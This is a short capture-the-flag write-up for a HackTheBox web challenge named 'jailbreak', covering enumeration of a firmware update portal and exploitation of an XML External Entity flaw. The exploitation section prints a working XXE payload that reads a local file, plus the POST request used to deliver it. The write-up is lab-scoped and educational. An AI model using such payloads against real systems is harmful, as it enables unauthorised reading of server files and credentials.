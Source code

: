 # Day06 - jailbreak

- **Platform**: HackTheBox  
- **Category**: Web  
- **Difficulty**: Easy  
- **Date**: 2025-05-06  
- **Tools Used**: Browser, BurpSuite, Kali Linux  

---

## Summary
The challenge simulated a firmware update portal that accepted XML input. By crafting a malicious XML payload, I exploited an XXE vulnerability to read the `/flag.txt` file and retrieve the flag.

---

## Enumeration
- Accessed the app at `http://94.237.51.163:49486/`.  
- Found an update feature under `/rom`.  
- Observed that the update functionality relied on XML requests.  
- Used BurpSuite site map and repeater to analyze the update request.  

---

## Exploitation
- Identified the XML input was vulnerable to XML External Entity (XXE) injection.  
- Crafted a malicious XML payload to include the contents of `/flag.txt`:  
  ```xml
  <?xml version='1.0'?>
  <!DOCTYPE FirmwareUpdateConfig [
    <!ELEMENT FirmwareUpdateConfig ANY>
    <!ENTITY xxe SYSTEM 'file:///flag.txt'>
  ]>
  <FirmwareUpdateConfig>
    <Firmware>
      <Version>&xxe;</Version>
    </Firmware>
  </FirmwareUpdateConfig>
  ```
- Sent the payload in a POST request:  
  ```
  POST /api/update HTTP/1.1
  Host: 83.136.248.49:56894
  Content-Type: application/xml
  Content-Length: <adjusted length>
  ```
- Successfully retrieved the flag from the response.  

---

## Lessons Learned
- XXE vulnerabilities allow attackers to read local files via crafted XML input.  
- BurpSuite repeater is effective for quickly iterating on payloads and testing injection points.  
- Recognizing XML parsing in web applications is a key signal to test for XXE.  
